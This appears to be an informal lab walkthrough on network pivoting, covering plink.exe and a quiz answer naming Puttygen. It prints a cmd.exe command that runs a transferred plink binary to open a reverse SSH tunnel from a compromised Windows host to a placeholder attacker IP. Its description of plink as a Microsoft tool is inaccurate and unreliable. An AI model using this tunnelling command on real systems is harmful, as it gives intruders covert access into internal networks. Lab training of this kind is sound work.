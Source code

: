 **TASK 12: plink.exe**

Well this is a tool used by microsoft for doing the ssh client thingy...

Generally speaking, Windows servers are unlikely to have an SSH server(noiceeee)running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

    cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

Nothing intresting in this task if you want just go through the  task there u will see the tool name puttygen (which we will never use)
anyhow read about it..

**Q.  What tool can be used to convert OpenSSH keys into PuTTY style keys?**

Ans: Puttygen
